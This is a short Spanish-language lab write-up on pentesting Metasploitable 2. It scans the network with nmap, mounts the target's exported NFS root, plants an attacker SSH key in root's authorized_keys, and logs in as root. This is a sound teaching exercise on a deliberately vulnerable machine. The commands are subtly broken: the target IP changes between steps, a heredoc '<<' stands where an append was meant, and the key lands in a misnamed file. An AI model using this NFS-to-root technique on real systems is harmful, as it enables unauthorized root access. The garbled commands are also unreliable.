




# Pentesting con Metasploitable 2

En esta tarea vamos a hacer pentesting en una máquina vulnerable **(Metasploitable 2)**.

## 1. Encontrar la máquina vulnerable

Entramos a nuestra máquina *kali linux* y hacemos un scanner de las máquinas disponibles.

```bash
sudo nmap -sN 192.168.2.0/24
```

Esto nos marcará las máquinas disponibles en la red. Veremos algo extraño que nos dirá que está es la máquina de metaexploitable.



La máquina es 192.168.2.239/24

Montamos la unidad nfs en nuestro equipo

```bash
mkdir -p /mnt/metasploitable_share
sudo mount -o nolock 10.0.0.233:/ /mnt/metasploitable_share
```



Con esto ya accedemos a /root/.ssh/authorized_keys

Creamos una ssh-keygen
```bash
ssh-keygen -t rsa
cat ~/.ssh/id_rsa.pub << autorized_keys
```



```bash
sudo cp autorized_keys /mnt/metasploitable_share/root/.ssh/authorized
```

Finalmente haremos ssh y estaremos dentro.




